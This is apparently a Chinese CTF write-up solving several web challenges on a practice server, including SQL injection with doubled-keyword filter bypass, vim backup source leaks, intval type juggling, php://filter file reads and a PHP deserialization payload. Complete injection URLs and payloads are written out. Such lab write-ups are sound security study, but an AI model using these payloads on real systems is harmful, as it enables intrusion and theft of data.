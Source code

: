 ## web1http://123.206.31.85:10001/

变量覆盖,提交a,c两个变量为空就行了,http://123.206.31.85:10001/?a=&c=  得到flag

## 流量分析.rar
直接追踪telnet的tcp流即可

## web11 http://123.206.31.85:3030/
进去页面为空,访问robots.txt就可以知道题目在shell.php.  
substr(md5(XXXX), 0, 6) = xxxx的形式,用脚本爆破md5即可,参考百度别人写的脚本.

## web13 http://123.206.31.85:10013
响应头里面有一项:  
Password:ZmxhZ3szYzAwZGFhN2VkMTIwM2MyODQ4MGY0OGZmZjc5M2E4Nn0=
base64解密即可

## Sql injection web18 http://123.206.31.85:10018
sql关键字要进行双写绕过过滤  
>查字段数 http://123.206.31.85:10018/list.php?id=1%27%20oorrder%20by%204--+   

>回显位置 http://123.206.31.85:10018/list.php?id=-1%27%20uniunionon%20seselectlect%201,2,3--+  

>查表名
http://123.206.31.85:10018/list.php?id=-1%27%20uniunionon%20seselectlect%201,group_concat(table_name),3%20from%20infoorrmation_schema.tables%20where%20table_schema=database()--+
返回有 ctf,flag两个表 

>查flag表中的字段  http://123.206.31.85:10018/list.php?id=-1%27%20uniunionon%20seselectlect%201,group_concat(column_name),3%20from%20infoorrmation_schema.columns%20where%20table_name=%27flag%27--+%20id,flag%203  

>查flag字段的值 http://123.206.31.85:10018/list.php?id=-1%27%20uniunionon%20seselectlect%201,flag,3%20from%20flag--+ 可直接得到flag


## web20 http://123.206.31.85:10020/


## vim编辑器 [web15](  http://123.206.31.85:10015/)
根据提示,感觉是vim文件泄露,尝试index.php~和index.php.wsp,最后index.php~可以得到源码  
```php
<?php
header('content-type:text/html;charset=utf-8');
include './flag.php';
error_reporting(0);
if(empty($_GET['id'])){
    header('location:./1ndex.php');
}else{
	$id = $_GET['id'];
	if (!is_numeric($id)) {
		$id = intval($id);
		switch ($id) {
			case $id>=0:
				echo "快出去吧，走错路了～～～<br>";
				echo "这么简单都不会么？";
				break;
			case $id>=10:
				exit($flag);
				break;
			default:
				echo "你走不到这一步的!";
				break;
		}
	}
}
?>
```
审计源码,要求提交的id不能为数字,关键在intval函数,我是提交字符串100a,则id=100,输出flag
http://123.206.31.85:10015/index.php?id=%22110a%22


## [web21]( http://123.206.31.85:10021/)
F12查看提示的源码
```php
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
```
file_get_contents函数要求user为文件,于是用php://input伪协议,尝试读取class.php  
http://123.206.31.85:10021/?user=php://input&file=php://filter/convert.base64-encode/resource=class.php  
同时post传入 admin

得到base64加密的密文,解密得到class.php 
```php
<?php
error_reporting(E_ALL & ~E_NOTICE);
 
class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}
?>
```
同理,再读取index.php
```php
<?php
error_reporting(E_ALL & ~E_NOTICE);
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    if(preg_match("/f1a9/",$file)){
        exit();
    }else{
        include($file); //class.php
        $pass = unserialize($pass);
        echo $pass;
    }
}else{
    echo "you are not admin ! ";
}
 
?>
 
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
 --
```
这就可以清楚地发现是要用反序列化了,因为f1a9被过滤不能存在file变量中.读取f1a9.php关键是file_get_contents函数.   
直接new 一个class对象反序列化出来是:  
O:4:"Read":1:{s:4:"file";N;}  
>直接构造pyload,使得$this->file为f1a9.php:  
O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}  

>最终  
http://123.206.31.85:10021/?user=php://input&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}  
同时post提交admin  
flag在注释中,抓包提交的话可以直接看到


### 本身比较菜,最近又比较忙,没有跟上师傅们的节奏...
### 未完待续...
